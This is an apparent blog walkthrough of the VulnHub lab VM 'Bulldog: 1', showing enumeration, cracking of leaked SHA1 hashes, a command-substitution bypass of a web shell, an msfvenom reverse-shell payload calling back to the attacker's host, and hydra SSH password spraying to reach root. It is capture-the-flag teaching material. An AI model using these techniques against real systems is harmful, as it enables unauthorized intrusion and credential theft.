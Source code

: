 ```yaml
---
layout: post
last_modified_at: 2018-06-23 20:55:08 +0000
title: "Bulldog: 1 Walkthrough"
subtitle: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldog-1-walkthrough.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries has its website defaced and gets owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :smile:

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looks like in my browser.

![screenshot-1](/assets/images/posts/bulldog-1-walkthrough/screenshot-1.png)

There's no clue in the HTML source of the landing page as well as its internal link, on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to look for directories and/or files.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll appear in the `nmap` scan. Now, I've two more directories — `admin` and `dev` to explore.

### Under Development

This page `/dev` contains interesting information. There's a link to `/dev/shell`, I suppose, a web shell. Under the hood of the HTML source, there are SHA1 password-hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-1-walkthrough/screenshot-2.png)

Let's clean up the hashes and send them to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is a must, to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-1-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-1-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-1-walkthrough/screenshot-5.png)

I have a session with the site. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-1-walkthrough/screenshot-6.png)

Sweet. The web shell appears to restrict itself to certain commands.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-1-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-1-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-1-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-1-walkthrough/screenshot-10.png)

Although a low-privilege shell appears, let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-1-walkthrough/screenshot-11.png)

### Privilege Escalation

I find two users — `django` and `bulldogadmin`, during enumeration. They can `sudo` as `root`. It's a pity I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-1-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-1-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-1-walkthrough/screenshot-14.png)

Notice `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-1-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-1-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-1-walkthrough/screenshot-17.png)

Seems like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's what I did.

![screenshot-18](/assets/images/posts/bulldog-1-walkthrough/screenshot-18.png)

If you look past the "`H`", you see "`SUPERultimatePASSWORDyouCANTget`". I'll have my work cut short if this is the password belonging to any of the users, since they can `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-1-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-1-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-1-walkthrough/screenshot-21.png)

To an attacker, a shell is a shell is a shell. :imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html

